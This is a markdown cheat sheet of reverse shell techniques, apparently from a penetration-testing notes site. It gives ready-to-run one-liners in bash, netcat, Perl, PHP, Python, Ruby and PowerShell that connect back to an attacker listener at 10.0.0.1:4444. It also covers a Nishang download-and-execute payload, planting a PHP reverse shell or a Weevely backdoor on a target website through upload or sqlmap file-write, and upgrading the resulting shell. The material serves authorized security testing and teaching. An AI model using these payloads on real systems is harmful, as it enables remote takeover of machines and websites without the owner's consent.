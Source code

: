 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, PrivEsc, Privilege, Reverse, Shell, Windows]
alts: [Linux-Privilege-Escalation, Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## 1. Basic Flow

1. **Open Listener in Your Local Machine**

    First of all, you need to open listener in your local machine.

    ```sh
    nc -lvnp 4444
    ```

2. **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

3. **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

        # Edit $ip and $port to your local ip:port in the payload

        ```

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **Upload the Payload using SQLi**

        ```sh
        # req.txt: The request settings file which is saved using Burp Suite
        sqlmap -r req.txt --dbs --random-agent --batch --file-dest=/var/www/html/shell.php --file-write=./shell.php
        ```

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>
                ```

4. **Upgrade to a Full Functional Shell**

    After successful reverse shell, it's recommended to make the shell to be more elegant.

    ```sh
    SHELL=/bin/bash script -q /dev/null
    # or
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    The commands below make "your" shell even more perfect.

    ```sh
    Ctrl+z
    stty raw -echo;fg
    Enter x2
    export TERM=xterm
    ```

<br />

## 2. Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}** is a reverse and bind shell handler.
